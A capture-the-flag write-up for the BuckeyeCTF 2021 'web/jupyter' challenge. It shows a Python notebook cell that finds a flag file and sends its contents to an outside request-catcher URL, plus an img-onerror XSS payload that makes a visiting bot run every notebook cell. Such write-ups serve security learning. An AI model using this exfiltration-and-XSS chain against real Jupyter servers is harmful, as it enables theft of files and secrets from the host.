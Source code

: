# BuckeyeCTF 2021 - `web/jupyter`

## Description

This challenge contains two components: the `app` and the `bot`. The `app` is a web app that serves a simple file upload for [Jupyter notebooks](https://jupyter.org/),
which are documents that contain Python code cells and display their output.

![alt text](https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/upload.png)

This will post it to the `/upload_ipynb` endpoint on the app. The file will be given a random name ending in `.ipynb` and written to an uploads folder.
The notebook will then be ran with `jupyter trust` and served at the URL `"{APP_URL}:8888/notebooks/{filename}"`.
The app will then post to the bot's `/visit` endpoint with the URL of the notebook it is hosting in the body.
Note that only the app server can send requests to this endpoint as it has to send a secret `BOT_TOKEN` along with it.

When the bot receives a valid URL on this endpoint, it will visit it using Puppeteer.
After a timeout, it will then call `window.IPython.notebook.close_and_halt()` to gracefully stop and close the Jupyter notebook that it is viewing.

The app also a contains `run.sh` which immediately moves the file containing the flag to `/flag_{rand}.txt`, where `rand` is a random hex string.
Our goal therefore is to read this file.

## Solution

Since Jupyter notebooks contain code cells that execute Python code on the local machine, we should be able to get the flag if the bot runs a code cell while viewing the Jupyter notebook.
Even though the bot is viewing the notebook, executed code cells will run on the app, since the app is the server hosting the Jupyter notebook.
This is good because the app has the flag file, not the bot.

I created a new notebook by downloading Jupyter and running `jupyter notebook` to open my own web enviornment.
I then wrote a simple Python payload in a code cell that exfiltrates the flag.

```python
import urllib
import glob

endpoint = 'https://enbnoedu5p8tj.x.pipedream.net/'

path = "/flag*.txt"
flag = ''

for filename in glob.glob(path):
    with open(filename, 'r') as f:
        flag = f.readline()

urllib.request.urlopen(endpoint + flag)
```

The purpose of `glob` is to find the flag's filename, since part of the filename is random.
The content of this file is then read and sent to a server created with [request.bin](https://requestbin.com/).

This code cell works when the user decides to run it.
However, there is still a problem: when the bot reads the Jupyter notebook, it doesn't actually run any of the code cells.

I noticed in the bot that `window.IPython.notebook.close_and_halt()` gets called in order to stop the notebook.
This implies that Jupyter has some Javascript functions that we could possibly leverage to get the bot to run the code cell.
After some digging, I found that running the Javascript `IPython.notebook.execute_all_cells()` on the page will run all code cells.
I tried to write a script that would execute only one cell, but I had issues with this working consistently.

Now all we need is some XSS on our Jupyter notebook page to run this Javascript.
I found that in Jupyter you can have a code cell output HTML by using the following syntax in a code cell.

```html
%%html
<!--
HTML goes here
-->
```

The HTML outputed when this code cell is ran will actually persist even if the notebook is closed and reopened (as long as you save it beforehand).
This generated HTML could be the perfect place to get some XSS running.

When I tried running my XSS using `script` tags, I sometimes had issues with the page not running the script or running it at the wrong time.
There are probably many different ways of solving this (I think you can even edit the notebook's source code directly),
but I decided to just use the quick solution of having an invalid `img` element that runs my XSS payload via `onerror`.

```html
%%html
<img src='http://example.com' onerror='if(!window.loaded) IPython.notebook.execute_all_cells(); window.loaded = true' />
```

The purpose of creating the `window.loaded` variable is just so that the script doesn't keep running itself.
Since I am executing **all** cells, the HTML will be regenerated and the event will fire again.

This had the desired effect of running all of the cells whenever I opened the notebook!
Thus all that was left was to upload this to the app server and have the bot open it for me and send me the flag.



